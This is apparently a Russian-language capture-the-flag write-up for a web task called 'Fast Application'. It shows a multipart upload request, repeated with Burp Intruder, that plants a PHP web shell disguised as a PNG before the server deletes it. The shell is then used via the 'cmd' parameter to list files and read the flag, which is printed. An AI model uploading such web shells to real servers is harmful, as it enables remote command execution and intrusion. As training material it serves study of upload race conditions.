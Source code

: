 # Fast Application
С помощью burp-интрудера "бомбардируем" сервер POST запросами:
```
------WebKitFormBoundarybk1pj6JTXHSvFZXA
Content-Disposition: form-data; name="file"; filename="lul.php"
Content-Type: image/png

PNG

<?php system($_GET["cmd"]); ?>
------WebKitFormBoundarybk1pj6JTXHSvFZXA--
```

Сервер не успевает обрабатывать и удалять файл, поэтому файл доступен по пути /files/lul.php. В параметре 'cmd' можем указывать системные команды. Выполняя вызов с параметром `cmd=ls+-la+../` можем видеть php-файл flag_asiljdaksjdlkqlwieo.php.

Выполняем `cmd=cat+../flag_asiljdaksjdlkqlwieo.php` видим комментарий с флагом.

Флаг - deteact{365f537db238a2dbbd7141a4f3a30de4}